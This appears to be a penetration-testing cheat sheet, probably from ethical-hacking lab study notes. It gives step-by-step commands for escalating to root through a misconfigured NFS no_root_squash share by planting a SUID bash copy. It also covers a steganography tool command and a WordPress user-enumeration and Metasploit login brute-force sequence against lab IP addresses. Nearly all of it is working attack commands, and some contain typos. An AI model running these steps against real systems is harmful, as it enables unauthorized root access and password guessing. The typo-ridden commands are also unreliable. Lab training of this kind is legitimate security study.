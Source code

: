 
vulnerability : Nfs squash method
if you have time Follow this tutorial only
https://juggernaut-sec.com/nfs-no_root_squash/#Example_1_Crafting_an_Exploit_for_a_Root_Shell
or
### Perform vertical privilege escalation of a root user
Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`

after them, In another terminal:

* Access to target using SSH
ssh smith@192.168.0.x
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`


	#Windows cmds 

		Net  user
        Snow.exe -C -p “given_password” file_name
        —---------------------

        -wpscan --url http://10.10.10.12:8080/CEG --enumerate u
        msfconsole
        use axiliary/scanner/http/wordpress_login_enum
        PASS_FILE /root/Desktop/wordlists/Passwords.txt
        set RHOSTs 10.10.10.12
        set RPORT 8080
        set TARGETURI http://10.10.10.12:8080/CEH/
        set USERNAME admin
        run

